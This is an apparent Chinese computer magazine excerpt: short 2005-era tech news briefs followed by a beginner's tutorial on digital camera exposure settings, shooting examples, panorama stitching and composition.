微软有关人士近日透露，从2月7日起，中国用户可以以折扣价格购买微软Windows XP操作系统，这种折扣销售的Windows XP并非简装版，而与目前中国市场销售的版本相同。但微软方面拒绝透露Windows XP在销售伊始折扣到什么程度。

**激光刻绘**
Nero刻录软件的开发商最近表示，CD/DVD刻录软件Nero将很快支持到HP/Lacie发明的LightScribe激光刻绘技术。LightScribe可以让支持此项技术的刻录机采用激光束将图形或者文字刻绘到刻录盘片的表面，作为封面。LightScribe技术将在新一代CD/DVD刻录机当中得到使用。

**反狗仔相机**
根据惠普最近提出的专利申请文件，一种专门用于对付狗仔队的数码相机技术即将得到应用。该装置设在数码相机的系统内，可利用遥控造成任何拍摄的画面脸部模糊不清。它的好处是能装设在手机里，坏处是任何人都可关掉它。

**神秘标记**
Intel最近所提出的“Intel Inside VIIV”以及“Intel VIIV”的商标申请不禁让人怀疑，这家全球最大的晶片商正在盘算什么新的全球品牌计划。有人认为这是罗马数字，也就是6与4，代表的是64位技术。另外也有人猜想VIIV会是双核晶片的标志。

**贼喊捉贼**
日前，一种名为Sober的病毒变种通过电子邮件在网络上快速蔓延。该蠕虫能伪装成一份来自反病毒公司的对发现此种病毒新变种的警告通知，并声称附件内含有软件补丁而试图诱使用户将其打开。

**iPod死对头**
日前，一家法国公司透露，iRiver新的播放器iRiver H10 Junior具有2GB闪存和长达60小时的电池续航能力。该产品（下）与iPod产品的对比图片出现在一家韩国网站上。

**零头**
中国电信、中国网通、中国移动、中国联通、中国卫通、中国铁通共同出台电话卡余额问题解决办法，在经短期技术调试后，用户关心的电话卡消费后的“零头”问题将在4月份得到妥善解决。

**解密**
山东大学王小云教授带领的密码研究小组经过一年多的研究，先后破译了包含MD5与SHA-1在内的系列Hash函数算法。SHA-1早在1994年便被美国政府采纳，目前是美政府广泛应用的计算机密码系统。此举意味着美国政府在5年内将不能在使用该算法。

**购物瘾**
PChome日前宣布达成300万人次购物的目标，并邀请不少习惯网络购物的网友现身说法。其中购物最频繁的网友方小姐，3年来一共购物711次，几乎每天都会从网络购买商品，而不少学生也习惯透过网络比价，让自己购物绝对不吃亏。

**P概念**
今年的CeBIT流行什么？答案是英文字母“P”！P隐含的最大意义是Portable，即可移动式、可携带式的电子产品。音乐领域有iPod，游戏领域有PS2、PSP，手持装置有PDA、GPS、GPRS手机……

**迅驰三代**
继Sonoma之后的下一代迅驰平台代号为Napa将在2006年发布。迅驰三代Napa主要由Yonah（基于65nm工艺的双核心处理器）、Calistoga（Napa平台芯片组，集成更先进的图形芯片，具备更高效的电源管理机能，其可以让电池使用时间超过5小时）和Golan网络模块。

**Turion 64**
AMD近日宣布开始销售Turion 64笔记本电脑移动处理器，有计划地与Intel迅驰进行竞争，为公司在快速增长的PC市场立足打下基础。

**iShirt**
Podbrix公司近日发布了一款iPod Shuffle专用T恤衫，将iPod别在此款T恤上，正好组成其名字“iShirt”。

**悬赏**
一家Mac/iPod外设产品生产商近日悬赏25000美元，用以奖励第一个侵入其公司两台Mac电脑的黑客，他们举办此次悬赏活动的缘由缘自Symantec近日发布的安全报告，报告中称：“很明显，Mac OS正日益成为黑客等恶意侵入活动的对象。”

**掌上杀毒**
一种专门用来防御通过彩信或者蓝牙传播的手机病毒的反病毒软件正式进入测试阶段。感兴趣的朋友可以登录Symantec的网站下载测试版。目前免费测试版本可以运行在Symbian 60/80系统的手机上。

**播客**
过去1年内已有600万人聆听一种才刚崛起的传播方式“podcast”。这是一种类似博客形式的个人创作，它的格式是MP3，通过网络下载方式传播，可在iPod或其他数码随身听上收听。播客随iPod迅速走红，影响力与日俱增。

**摩尔定律**
今年是摩尔定律诞生40周年。由Intel创始人之一的摩尔勾勒出的摩尔定律印证了40年来个人电脑的成长史。Intel今年起将摩尔定律赋予广泛定义，从增加晶片功能、人性化应用、纳米技术着手，比如：推出双核心处理器以及超线程功能（HT）、虚拟化技术（VT）等；将安全、防毒等功能整合进芯片；将数字智能融入电子产品，例如使手机具有即时翻译等功能。Intel还预估，摩尔定律至少还有15到20年好光景。

**单面双层**
近日，JVC成功开发了单面双层DVD-RW光盘，此技术使得在DVD-RW的光盘容量由4.7GB增加到8.5GB。JVC开发的双层DVD-RW的光盘结构中，高感度记录薄膜是其中的关键技术。

**超级Windows**
微软斥巨资打造的超级Windows—Windows Server 2003 Computer Cluster版今夏上市。不过，它的最大优势是超级计算，和普通用户关系并不大。

## 好‘摄’之念——数码相机拍摄实例剖析

随着数码相机的价格直线下降，许多朋友拥有了自己的DC，但是相当多的人一直把它当成传统傻瓜相机来使用，每次拍照时只知道按下快门，其实数码相机提供了许多高级功能，正确应用它们，可以让你拍摄出来的照片更加完美，甚至创作出专业水准的摄影作品。你可能觉得这应该是那些专业摄影师才能掌握的技能，其实不然，只要看过本期的特别话题，真正掌握并熟悉数码相机的几个重要功能，并学会巧妙组合使用它们，再加上你的一点点灵感，我们可保证，你可以在很短的时间内成为一名响当当的摄友！

## 菜鸟最难逾越的五道坎

专业摄影师为何能拍出好照片？最重要的原因是他们懂得应用调校相机的相关参数。可是很多人都认为：这些光圈、快门等的组合好像挺复杂的，也不容易理解。今天笔者就由浅入深，让大家了解数码相机相关参数的调校方法。

小提示：了解你的数码相机从使用说明书开始。就算同一个参数在不同的数码相机上调校时，步骤和方法都可能不一样。而此时，如果我们懂得基本方法的话，只要查阅使用说明书，就可以很快地调校出来。相信很多读者对数码相机都不是那么熟悉，阅读这些使用说明书，不仅可以了解你的数码相机的规格与特性，还可以了解使用数码相机的基本技巧，对你的入门功夫一定大有帮助。

### 1.光圈如何调校

大家应该都知道光圈的功能是控制曝光量的大小。如果用照相机来比喻，光圈就相当于快门的大小，它是指快门打开时，光线从镜头进入CCD的开口大小，其作用为控制进光量的多少。在同等光源下，光圈开大时进光量较多，照片就较亮；反之，光圈关小时进光量少，照片就显得较暗。数码相机一般都有多种光圈值可调整，例如f1.4、f2、f2.8、f4……在数码相机中，光圈值是以倒数来表示，所以光圈值越大，代表的光圈就越小，大家可千万别搞错了喔！以柯尼卡美能达DiMAGE A1为例，将模式转盘转到“A档（光圈优先）”，此时在LCD上就会以蓝色显示光圈值（见图1），转动控制转盘就可以改变光圈值。



| 光线 | 光圈 | 拍摄效果 |
|------|------|----------|
| 光线阴暗（阴雨天、室内） | 大光圈（f2.8、f4） | 景深浅，光线细节丰富 |
| 正常光线（白天、室外） | 中光圈（f5.6、f8） | 景深较宽，照片层次较佳 |
| 光线强烈（盛夏、正午） | 大光圈（f11） | 景深宽，照片前、中、后景层次分明 |

### 2.快门如何调校

数码相机除了利用镜头上的光圈来控制进光量，数码相机本身也有一个控制进光时间的装置，那就是快门。快门是大家比较容易理解的，通过光圈（进光量大小）与快门（进光时间）的搭配，就完成曝光行为了。这就好比煮粥，控制煮粥时间的长短可以决定食物生熟的程度一样。在光线不足的室内或阴雨天，往往需要以慢速快门汲取更多的光线，才能捕捉到拍摄主体的影像；相反地，如果光线太强，就必须以较高速的快门来限制进光量（见表2）。快门一般用秒来表示，例如：4、2、1、1/2、1/4、1/15、1/30、1/60、1/125、1/250、1/500。以柯尼卡美能达DiMAGE A1为例，将模式转盘转到“S档（快门优先）”，此时在LCD上就会以蓝色显示快门速度（见图2），转动控制转盘就可以改变快门速度。



| 光线 | 快门速度(单位:秒) | 拍摄效果 |
|------|------------------|----------|
| 光线阴暗（阴雨天、室内） | 慢速快门（1/15、1/30） | 只能拍摄静态对象，移动中的目标则模糊不清 |
| 正常光线（白天、室外） | 中速快门（1/60 ~ 1/30） | 可以捕捉到慢速移动的目标，允许相机轻微晃动 |
| 光线强烈（盛夏、正午） | 高速快门（1/500以上） | 可以冻结高速移动的物体，对相机晃动不敏感 |

### 3.曝光补偿如何调校

多数数码相机本身具有自动测光的功能，可以协助你了解拍摄物体的进光量是否适当。通常侦测的标准是以光线反射率为10%的中灰度为依据，所以假设在数码相机的测光范围内纯白（反射率约为90%）占了绝大多数，数码相机会因为侦测到较多的光源，而误以为环境太亮，故自动减少数码相机的进光量，此时拍出来的照片便因曝光不足而太暗。可是数码相机的拍摄结果应该尽量反映人眼所见到的真正颜色，因此在这种特殊情况下，必须进行“曝光补偿”的调节，尽量恢复眼睛所看到的纯白。通常数码相机都具有“曝光补偿”的调整功能，所以只要遵循“黑的越黑，白的越白”的原则就可以了。例如刚提到的纯白拍摄对象，应该加2级的曝光补偿，将反射率的标准提升4倍（每格曝光补偿的差距值与光圈相同，也是2倍），这样才能获得比较接近真实的颜色。对于曝光补偿，一般我们会用+2EV、+1EV、0EV、-1EV、-2EV来表示曝光值。比如景物接近纯白，曝光补偿建议调节为+2EV；景物如果接近纯黑，曝光补偿建议调节为-2EV（见表3）。以柯尼卡美能达DiMAGE A1为例，按下“曝光补偿”按钮（显示+/-的按钮），此时在LCD上就会以蓝色显示曝光补偿（见图3），



| 景物接近颜色 | 曝光补偿 | 拍摄对象 |
|--------------|----------|----------|
| 纯白         | +2EV     | 晴朗天气的雪地、纯白背景占多数时 |
| 近白         | +1EV     | 阴天的雪地、米白色的墙壁 |
| 一般         | 0EV      | 草绿色系 |
| 近黑         | -1EV     | 近黑色或深墨绿色的物体 |
| 纯黑         | -2EV     | 黑色的物体 |

### 4.ISO值如何调校

传统的胶片都会显示ISO值，代表底片对光线的反应灵敏度，数字越高表示越敏感，所需的曝光量就越低。最常见的底片ISO值为100，只要光线稍暗就难以维持安全快门，但如果改用ISO400的底片，感光度则提升为4倍。中高档数码相机都可以提供ISO值的调整，常见的调整范围为100、200、400三种，高档数码相机还可以提供50、800等ISO值的调整。当你无法直接以调整“光圈和快门速度”的方式，搭配出合适的曝光组合时，不妨调整一下数码相机的ISO值。室内光不及室外光照明充足，往往需要较长的光照时间才能有效曝光，对于一般手持相机的人来说，极不方便。你可以将数码相机的ISO值调高到400，可缩短1/4的曝光时间。特别是拍摄室内表演或演唱会时，因为需要捕捉表演者的神韵，最好将ISO值提高到400，才可以搭配较高速的快门。以柯尼卡美能达DiMAGE A1为例，将功能转盘转到ISO位置，按下位于转盘中央的功能按钮，转动前或后控制转盘改变数码相机ISO值（见图4），默认设置为“AUTO（自动）”。大部分数码相机是在设置菜单里设置的，在主设置菜单中选择“ISO”菜单项，按“右方向”键后，再用“上方向”、“下方向”键选择合适的ISO值。如果你的数码相机没有提供ISO值调整，那只能调节光圈和快门速度了。



### 5.白平衡如何调校

白平衡是一种为了忠实记录色彩的机能，白平衡会随着摄影场所的不同而变化。室内光源随着使用灯泡的不同，拍摄时可能会出现色彩偏移的现象，整张照片看起来会“偏蓝”或“偏红”；在大晴天的树阴下或有强烈的反射光，在红色的阳伞下变得通红的脸孔，这些是白平衡错误的结果。最简易的检验方式是观察照片中本是“全白”的部位是否偏向某种颜色（如偏蓝或淡红），如果是的话，请利用数码相机的白平衡功能将白色还原校正。大部分数码相机都有多种“白平衡”的设置，包括：自动、荧光灯、钨丝灯、闪光灯与手动等模式。如果变化不大的情况下，推荐使用自动功能，尤其最近日光灯的色温已提高到几乎接近昼光色，白天不论室外、室内都可不必改变设定。以Olympus C3030Z为例，按下菜单按钮，移动到“WB”菜单项，默认设置为“AUTO(自动)”，按“右方向”键后，再用“上方向”、“下方向”键选择合适的白平衡(见图5)。



## 专家支招:借鉴别人拍摄的数码相片参数来拍摄照片

要知道，不同的照片是根据不同场景、时间等因素的变化而拍摄的，因此要求的相关参数也不尽相同。有时候，我们看到一些优秀的数码摄影作品，通常也列出许多拍摄参数。这些参数可以给我们带来借鉴作用，在拍摄类似景物时，我们可以将数码相机设置成这些参数拍摄，如果拍摄效果不是很好的话，再进行个别参数微调。

### 小提示

### 如何查看网上数码照片的Exif参数

一般来说，由于Exif信息是用于照片输出和打印的，所以我们并不能直接就可以看到其信息。在Windows XP中，我们可以右击图片，选择“属性→摘要→高级”，就可以查看型号、快门速度、焦距等Exif参数(见图6)。ACDSee 4.0以上版本中，ACDSee浏览器则会专门在具有Exif信息的图片缩略图中增加一个绿色的“I”，只要用户点击这个标志就可以直接看到其Exif信息了。



如果在网上看见了一张精美的数码照片，肯定想要了解拍摄者所使用的相机、曝光、焦距等参数。此时，我们只要安装“Exif Show”IE插件(下载地址:http://www.exshownet/download/exshow13c.exe)，那查看Exif信息就方便多了，右键点击在网页中的数码照片，接着在弹出的右键菜单中选择“查看Exif信息”项，此时会打开一个“Exif属性”对话框(见图7)，里面就是关于这张数码照片的Exif信息。如果要想把这些资料复制下来的话，只要点击鼠标右键选择“复制全部”，然后粘贴到其他文档中就可以进行编辑或保存。如果有一些数码照片显示“该图片没有Exif信息”，可能是该照片经过处理而导致Exif数据的丢失，或者是使用不支持Exif信息的数码相机拍摄的。



## 菜鸟拍摄的七大经典实例

很多中高档数码相机都有多种自动及手动曝光功能，例如柯尼卡美能达DiMAGE A1的模式转盘上就设有全自动、人像、运动、黄昏、夜景人像、程序曝光、光圈优先、快门优先、手动曝光等拍摄模式(见图8)。即使是不懂摄影的玩家，也可以通过这些模式拍出较好的照片。虽然如此，数码相机并非智能，如果大家能够了解更多的拍摄技巧，并且选用适当的器材，拍出来的作品就自然更具水平。况且，更多中低档数码相机根本就不具备上述的人像、运动、黄昏、夜景人像等拍摄模式，例如编辑部一台Olympus C3030Z就只有程序曝光和光圈优先\快门优先\手动曝光的拍摄模式(见图9)。



### 经典实例一:给MM拍一张“人物清、背景朦”的靓照

#### 学习要点:浅景深

拍摄效果:影楼拍摄的个人写真集中有些照片背景朦朦胧胧，而人像却非常清晰，其实这样的艺术照你用数码相机也能轻松拍出来(见图10)。

拍摄要点:拍摄时，调大光圈(小f值，如f2.8)，就能营造浅景深效果。不过单单以最大光圈拍摄还不够，如果要令浅景深更加明显，可以选择使用较长焦距(超过100mm)的镜头。对新手来说，等效焦距80mm~100mm的镜头就非常好用，人像脸部及身体比例拍出来也比较正常。


#### 小知识

##### 深景深和浅景深

大家都知道，数码相机要对焦后才能拍摄，理论上照片中只有被准确对焦的部分(焦点)清晰，焦点前及焦点后的景物会因在焦点以外而显得模糊。不过，基于镜头、拍摄距离等因素，在焦点前、后仍会有一段距离的景物能够被清晰显示，不至于落入模糊地带，这个清晰范围便称为景深。浅景深的照片，只有焦点部分才会清晰显示，景深外的地方显得比较模糊。

#### 专家心得

浅景深效果最常用于将主体从杂乱的背景中抽出，特别适合用来拍摄人像，因为拍摄者只需留意抓拍主角的表情、动作，不用太费神处理背景。近距离人像拍摄一般景深较浅，如焦点选择不当(过前或过后)，都会影响成像质量，一般建议将焦点放在被拍摄人的眼睛。另外，尽量避免用广角镜头拍摄特写，四角都会出现明显的透视变形。以较长焦距拍摄，效果自然得多。

构图方面，以垂直方式构图较容易将人像填满画面，省去照片不必要的空间，因此初学者应常用垂直构图拍摄人像。

此外，由于人物表情千变万化，建议可以设定连环快拍功能，善用连拍可以较容易捕捉到人物表情的细微变化，然后从中选择满意的照片。

拍摄人像时光源是一个大问题，初学者可先尝试在光线反差不太强的阴天拍摄，可降低照片局部区域曝光不足或曝光过度的机会。如果拍摄时人物是背光，此时可以开启闪光灯来补光。

#### 小提示

##### 控制景深三大方法

- ★光圈大小:基于物理规则，大光圈(小f值)拍摄的照片会有较浅的景深，小光圈(大f值)拍摄的照片会有较深的景深。例如以f2.8光圈拍摄的照片，景深便一定比以f8拍摄出来的浅，也就是背景就越模糊。如果你的数码相机有A档(光圈优先)或M档(手动曝光)功能，只要控制光圈大小便可控制景深。
- ★焦距长短:长焦距的镜头较容易拍出浅景深效果。反之，焦距越短，景深就越深。市面上的数码相机的镜头一般有三倍光学变焦，焦距最远可达85mm~105mm，某些特殊型号的光学变焦更达8~10倍，浅景深效果较为容易获得。不过，由于数码相机CCD感光芯片大小各有不同，就算在相同焦距下的景深都分别。
- ★拍摄距离:以最近对焦距离拍摄，浅景深效果十分特别。数码相机最厉害的地方，是最近对焦距离超短，也就是我们所说的微距拍摄。拍摄距离愈近，景深便会愈浅，所以近摄或微距照片的景深可能只有对焦点附近的1mm~2mm，远一点的景物已经非常模糊了。

### 经典实例二:把最美的风景留下来

#### 学习要点:深景深

拍摄效果:拍摄气势宏伟的风景、建筑物照片时，很多时候都会要求照片每一处都清晰，这时就得采用深景深效果了。

拍摄要点:拍摄时，将镜头焦距缩小至最短，光圈调较至最小(如f8)，再用低一点的拍摄角度，效果一般都不会太差。用最广角的焦距拍摄风景，再加上景物距离数码相机较远，几乎察觉不到照片有任何一处地方是焦点以外，所以画面每个地方都会比较清晰(见图11)。



#### 专家心得

拍摄风景的最佳时间为清晨及黄昏，因为这时太阳位置较低，斜射光线带来的戏剧感更强。由于清晨及黄昏的光线不强，加上小光圈的关系，数码相机快门可能会很慢，手持拍摄容易因手震而引致照片松朦，这时一只三脚架及一条快门线便可以将问题迎刃而解，因此三脚架是拍摄风景照片的必备器材之一。

### 经典实例三:留住蜜蜂采蜜的那一瞬间

#### 学习要点:微距及浅景深

拍摄效果:经常看到一些非常棒的摄影作品，它们拍摄的主体是那些“渺小”的花草和昆虫，但照片中花草的纹路、昆虫身上的绒毛都那么清晰，让人深深感觉到了大自然的另一种美。

拍摄要点:目前，大部分数码相机都有微距拍摄功能，一般用英文字母Macro或小花的图形表示。焦距选择应该和放大倍率放在一起考虑，花草、静物焦距一般在50mm~100mm左右比较合适，放大倍率1/8到1/4即可(见图12);昆虫、小动物的焦距一般在100mm ~ 200mm 左右比较合适，放大倍率在1/4到1/2更好(见图13)。





#### 小知识

什么是微距
所谓的微距，说白了就是离得很近地去捕捉画面，显然拍摄到的画面一定是某一种物体的某一个细节。

#### 专家心得

开启相机的微距功能后，光圈、快门、感光度、白平衡等都由数码相机调校，你只需专注构图就可以了。数码相机拍摄微距需要将变焦调节到广角(焦距最短)，然后选择微距的拍摄模式，靠近物体进行拍摄。应先查看镜头的最近对焦距离，拍摄时应在这个距离以外拍摄，否则便不能清晰对焦。此外，由于近距离对焦会导致景深较浅，稍有一点移动便会出现“鬼影”，以三脚架可减低手震的影响。

不要认为光圈放大就会有很明显的景深，在微距拍摄中，本身就会产生很鲜明的景深效果，就不一定需要大光圈了。快门速度慢一点，有时能营造比较好的效果(见图14)。



另外要注意的是，如果拍摄花花草草，应该选择在风不太大的日子，否则会因花草不断随风摆动而导致主体松朦。如果拍摄小昆虫，一支对焦够快的镜头可以令拍摄事半功倍，同时焦距也都不能太短，否则走得太近拍摄会吓走昆虫。

### 经典实例四:为活泼好动的娃娃拍照

#### 学习要点:高速快门的掌握

拍摄效果:相信大家都知道给活泼好动的孩子拍照绝对是个难事，通过这个实例你可以轻松掌握如何抓住他运行的一瞬间，就像拍摄静止人物一样。学会了这个实例后，你就能很容易地应付行人、宠物、行驶的汽车等拍摄。

拍摄要点:建议设定大光圈、较快的快门速度，在足够光线下可以凝结一般动态主体。最理想的调校幅度是刚刚好，ISO尽量避免太高，以免引起过高噪声。如果ISO 200已经足够凝结动作，调到ISO 400也只是将噪声提高而已。如果用f4光圈，以ISO 400很多时候都可提供较高的快门速度，足够在动作变化不大的情况下凝结动态主体。快门速度一般设置为1/60秒~1/250秒就已经足够(见图15)。如果要拍摄足球、篮球赛事，就最好要有1/500秒的快门速度。如果要拍摄赛车、棒球的话，由于速度相当之高，可能需要用1/1000秒快门也不足为奇。



拍摄前，可以用快门优先自动曝光模式，拍前几张照片时仔细查看照片的清晰度，如果主体有点模糊，就要考虑增加快门速度、提高ISO值和加大光圈了。

拍摄时，应先对准主体半按快门，然后保持半按快门的状态并以镜头一直追随主体移动，直至主体的动态及构图符合理想状态，再将快门按尽。如拍摄一些可以预测动态的主体，例如荡秋千的小女孩等，大家在主体与数码相机的相对速度最慢的一刻，拍摄效果最为理想，例如秋千上的女孩荡至最高点的时候，便是按下快门的最佳时机。

#### 菜鸟快门拍摄练习实例

练习实例:田园风光的小河流水、瀑布
拍摄这类题材的照片时，一般情况下ISO要设置低一些。至于快门速度，就要视具体情况而定，如果想将流水拍成丝一般柔顺，可以利用慢快门(如1/5秒)。快门速度一慢，入光量自然会提高，这时需要使用一个较小的光圈去做相应调节。但如果想拍摄一些清晰的流水，就可以将快门设置快一些。这时可以选择快门优先模式，只需要设定好快门速度，数码相机会懂得自动设定好一个合适的光圈(见图16)。


### 经典实例五:经典夜景之多彩的霓虹

#### 学习要点:曝光和光圈

拍摄效果:大城市的夜景最美妙的莫过于多彩的霓虹灯，它们像一颗颗璀璨的明珠将原本乏味的黑夜装点给无比美丽。

拍摄要点:可以选择A档(光圈优先)或M档(手动曝光)进行夜景拍摄。将光圈f值设置为最大，然后再去调整快门速度(曝光时间)。同时配备三脚架。

#### 小提示

三脚架(见图17)可以说是拍摄夜景必备的工具。为何白天拍摄风景相可以手持机身，而夜晚拍摄就要使用三脚架呢?因为白天光线充足，数码相机可以维持一个较快的快门速度，CCD也有足够光量曝光。相反，晚间的光度通常非常微弱，这时数码相机的快门要降至很慢(有时慢至数秒)才可以让CCD吸收足够光量，相信没多少人能有足够定力手持拍摄而又不手震。原则上，使用越重的三脚架，受到周围震荡影响的机会便小。以数码相机的重量，200元左右的铝质三脚架已有不错的效果。如果是外出旅行，建议买一个小型的三脚架，方便携带。如果一时没有三脚架在身，或者环境不允许带脚架，也有一个折衷方法避免手震，就是让数码相机靠在街上的固定物体上拍摄。



至于选择多长曝光时间，这是个仁者见仁，智者见智的问题。同样的景色，有人认为明亮一点好，那么曝光时间可以设长一些；如果认为暗一点好，那么时间就相对短一些。最好的办法是用多种曝光组合来进行拍摄，然后后期再进行选择。同时，在拍摄时及时回放，从而调整你的曝光组合。

拍摄夜景，要特别注意运用光圈，因为它会直接影响景物的清晰度。有些夜景，由于光线十分暗淡，拍摄距离无法精确确定，因此，常常用缩小光圈、增加景深范围的办法来对付，常用的光圈为f5.6或f8。有些景物的位置比较固定，光线变化也不大，那么光圈可以适当小一些，但曝光时间要相应延长，这样，景物的清晰范围可以更大一些(见图18)。



夜景的灯光色彩搭配是照片最吸引的地方之一，不过如果大家使用自动白平衡模式的话，数码相机会将夜景的灯光变白，拍出来的照片会面目全非。大家最好使用日光白平衡设定，照片的颜色看起来会较为原汁原味。

拍摄距离的测定要尽量准确，否则直接影响景物的清晰程度。一般地说，拍摄大场面夜景，距离可放在无限远处。拍中景、近景，就要进行对焦，把焦点对得越清楚越好。焦点应定在被摄主体或景物的主要部分的位置上，也可利用被摄主体附近的光亮点来代测。距离一旦确定，在拍摄过程中就不能任意变动。

#### 小提示

- 夜景拍摄错误示范
  - ★远距离拍摄开启闪光灯
    大家如果过夜晚闹逛天安门，可能会碰到不少游客使劲地拿起手上的傻瓜数码相机或者数码相机拍摄，而且更是张张开启闪光灯。可是，当他们冲洗或者在计算机上看照片时便会发现，所拍的大多数照片都是曝光不足(见图19)。当数码相机设定为开启闪光灯时，快门也会自动加快至可以手持拍摄的速度，但是这么快的快门便不足以吸收景物的现场光线，所以才会出现照片曝光不足的情况。所以拍摄夜景时，多数要将闪光灯强行关闭，尽量不要用自动闪光灯模式。
  - ★手持拍摄
    有些初学者懂得关闭闪光灯拍摄，但又没注意到快门变慢的问题，结果照片张张都出现手震松朦的情况(见图20)。而且很多初学者习惯用LCD观看照片的质量，但这个小小的LCD通常都不足以显示手震的影响，在LCD看得清晰的照片，在计算机上可能会有完全不同的效果。
  - ★夜景拍摄不宜选择过高的ISO值
    高的ISO会产生噪点，一般选择最低的ISO值(大部分数码相机的最低一档为100，但有些数码相机的ISO值最低能设置到50)。





### 经典实例六:经典夜景之车水马龙

#### 学习要点:曝光

拍摄效果:夜景照片之中最为经典的场面，相信是马路上的汽车都变成一条条橙红色的光线轨迹，很能突显都市的繁华景象(见图21)。

拍摄要点:一般使用慢快门会营造出车流的效果，只要快门可以设置2秒~8秒的开启时间，便足够让车辆驶经镜头前大部分的地方，车头灯及车尾灯便被记录成一条条的光。

## 专家心得

如果快门设置稍快一点，拍摄下来的照片就会出来光线断断续续的现象（见图22）。拍摄时要多留意附近的车流，因为选择车速愈快、车辆密度愈高的马路，可以拍摄出更多更长的光线。如果车辆不够多，光线也会弱得多，拍摄出来就体现不出都市的繁华景象。另外，车辆跟数码相机的相对速度也有很大影响，如果车辆面向数码相机行驶，光线便会集中在一个较小的地方。如果车辆在数码相机前驶过的话，两者的相对速度也较高，光线也会较长。

## 练习实例1：经典夜景之落日、晚霞、余辉

天色最美的时候无疑是早晨和黄昏，但未必是日出和日落之时，日出前的晨曦和日落后的余光返照更是一道难得的风景。很多人以为夜景便是夜晚拍摄的景象，其实不一定要天色全黑才可以拍摄，在太阳下山后、天还未黑时的晚霞其实更加迷人。

千变万化的天空，给风光景物带来无穷的变化，取景时要不要天空？要多少天空？怎样处理天与地的光比及色比？怎样解决天空曝光都是难题。的确，越是灿烂辉煌的天空，往往越难拍，这是因为当天上云彩有耀目的高光，极易使测光产生误差。如果高光很强或高光面积很大时，必须增加1级左右的曝光补偿（见图23）。为了表现更浓晚霞的色彩，可以将曝光补偿降低一级。

## 练习实例2：灿烂的烟花

拍摄烟花时，应该事先了解一下烟花活动地点的环境，选择一个制高点是最好的，这样能够把大部分的节日活动场面都拍摄下来。

要想获得出色的烟花拍摄效果，最好采用具备高倍光学变焦的数码相机进行拍摄。烟花拍摄中的常识就是慢速快门能够获得好照片。另外影响画质的一个因素就是ISO感光度，如果采用高ISO设置，就造成画面噪声高、画质粗糙的问题。因此各位在ISO设置上尽量选择较低的数值，比较合适的为ISO 50、64或者常用的100。虽然ISO低，快门速度会慢下来，但有了三脚架的辅助拍摄，也不用担心画面抖动的问题了。光圈最好调节到f8，快门的选择范围是1秒~3秒为佳，这样才能够把烟花从发射到爆开后的路径和焰火一览无余地拍摄下来（见图24）。

## 经典实例七：视角宽阔的全景照片

拍摄效果：如果大家在明信片、图片展中看过一些全景照片，相信都会被超宽阔的视角及所带来的超真实现场感深深吸引。大家不要以为全景照片是将数码相机的上、下半部裁剪实现的。要拍摄真正的全景照片，是通过不同角度拍摄不同的照片，然后通过软件拼接。

拍摄要点：如果大家要制作高水平的全景照片，那要选用设有手动曝光模式的数码相机，以便拍摄出曝光一致的照片。拍摄时，一定要记得用三脚架拍摄。

专家心得
由于数码全景照片由多张照片合成，照片的连贯性是成败关键。选择拍摄景点时，避免选择闹市或人多车多的地方。另一方面，拍摄地点的环境最好宽阔而又多远景，如果有太多远近不一的景物，照片与照片之间的透视会有所不同，合成出来的照片有可能会出现线条不能重叠的情况。

只要将模式转盘切换到M档（手动曝光模式），设定好相关参数，然后选择全景的最左端或最右端开始拍摄。拍摄第一张照片时就要留意照片的水平及构图，尝试先水平地转动三脚架平台，看看拍到最后一张照片时会是什么样子。再将数码相机往左或往右转动，直至画面的边缘跟上一张照片边缘重叠，便再拍一张，直至所需景物全被拍下为止。Canon A80数码相机还内置全景辅助拍摄模式，画面上会出现上一张照片的边缘残影帮助大家构图，可方便地拍摄全景照片。如果大家用的数码相机没有全景辅助拍摄模式，凭上一张照片的记忆拍摄也是可以的，不过就是没有那么方便及准确了。

如果大家拍摄的是360度都有水平线或地平线的环境，只需每次转动一个角度按下快门就可以了，这时三脚架上的刻度可以令转动的角度更准确。不过如果大家拍摄的画面有海岸线（跟水平线不同），就算第一张照片水平正确，由于透视关系，拍摄几张之后大家便会发现海岸线越来越斜，这张全景照片就泡汤了。其实遇到这个情况，拍摄每一张照片时就得重新调整海岸线的水平及高度，令每张照片的海岸线高度及水平更为一致，合成的照片便会更加自然。

全部拍好后，就要进行软件合成了。市面上有很多方便易用的全景合成软件（例如：ArcSoft Panorama Maker 3），下载地址：http://www.arcsoft.com/en/support/downloads/downloadclub.asp?downloadid=42。

第一步：运行ArcSoft Panorama Maker 3软件，在主界面中点击“Start”按钮，选择照片的拼接方式，从左到右分别是：Horiz（横向拼接）、Vert（纵向拼接）、360°（360度全景拼接）、Tile（纵横拼接），笔者是选择Horiz（横向拼接），点击“Next”按钮。

第二步：点击“ADD”按钮，依次将需要拼接的照片添加进来，添加好后，再分别选择照片并点击“Include”按钮，添加到下面的窗格中，再点击“Next”按钮。

第三步：这里就可以看到程序自动拼接的照片了，点击“Finsh”按钮后返回到主界面，再点击“Save”按钮保存即可。

最后，大家可以看看笔者用三张照片拼接的效果（见图25），接缝处就算将照片放大也分不清。看来这个效果还是非常不错的。

## 摄友必读的两大构图密招

要想拍出好摄影作品，就必须追求构图上的和谐。大家可能留意到，专业摄影师拍摄时总会挑选较高难度的位置拍摄，其实他们可能是正找寻一个合适的构图。数码摄影也是摄影一种，当然也要讲构图。对于初学者来说，平时记住一些构图要领，在拍摄以前就能生动地想象出照片拍出后会是什么样子，对于成功地创作一些优秀的摄影作品也是大有帮助的。

1. 选择横向构图？还是垂直构图？
拍摄每张照片之前，其实都要首先考虑照片是采用横向构图，还是垂直构图。对于初学者而言，这个相当重要的因素往往只是凭感觉。传统数码相机的横直比例近似为3：2，不过数码相机拍出来的照片的比例便有所不同，因为要迁就显示器的4：3比例，所以数码相机的照片的横直像素比例多数都是4：3，例如2304 × 1728、1600 × 1200。

横向构图相信是最经常采用的构图方式，几乎所有数码相机的基本把持姿势都是方便横向构图的照片有安静、平衡、松弛的感觉。

相反地，垂直构图的照片较能够表达出紧迫性及张力，如照片中出现一些垂直线条，更能加强这种感觉。拍摄垂直的景物，例如建筑物、人物等等，垂直构图是最容易将主体填满照片的方法（见图27）。

## “贝”了“闪”了——Flash动画制作一日通

选题推荐：浙江 红袖添香  图 策划：柳絮飞  图 执笔：河北 闫艳力  北京 梦与梦寻

